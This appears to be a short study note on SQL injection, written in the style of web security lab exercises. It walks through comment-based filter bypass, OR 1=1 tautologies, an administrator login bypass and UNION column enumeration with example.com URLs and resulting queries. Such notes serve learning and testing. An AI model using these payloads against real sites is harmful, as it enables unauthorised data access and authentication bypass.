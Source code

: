 # SQL Injection

* `'`. `OR 1=1`, `OR 1=2`
* `WHERE` and `SELECT` are the most common. 


By adding `released=0`, it returns all products, including unreleased ones. 
* `https://example.com/products?category=Gifts`
* `SELECT * FROM products WHERE category = 'Gifts' AND released = 0`



A comment indicator `--` comments out anything after. As a result, it returns all products. 

* `https://example.com/products?category=Gifts'--`
* `SELECT * FROM products WHERE category = 'Gifts'--' AND released = 0`


This also returns all products.

* `https://example.com/products?category=Gifts'+OR+1=1--`
* `SELECT * FROM products WHERE category = 'Gifts' OR 1=1` AND released = 0`
* `SELECT * FROM users WHERE username = 'administrator'--' AND password = ' ' `


### UNION

`UNION` retrieve data from additional table. `UNION` to work, 
* The individual queries must return the same number of columns. 
* Also, the data types in each column must be compatible between the queries. 
```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

To find the number of columns, keep trying using `ORDER BY` until you get an error. 
```
http://example.com/filter?category=Drinks 'ORDER BY 1 --
http://example.com/filter?category=Drinks 'ORDER BY 2 --
http://example.com/filter?category=Drinks 'ORDER BY 3 --
```

```
http://example.com/filter?category=Drinks 'UNION SELECT NULL--
http://example.com/filter?category=Drinks 'UNION SELECT NULL,NULL--
http://example.com/filter?category=Drinks 'UNION SELECT NULL,NULL,NULL--
```




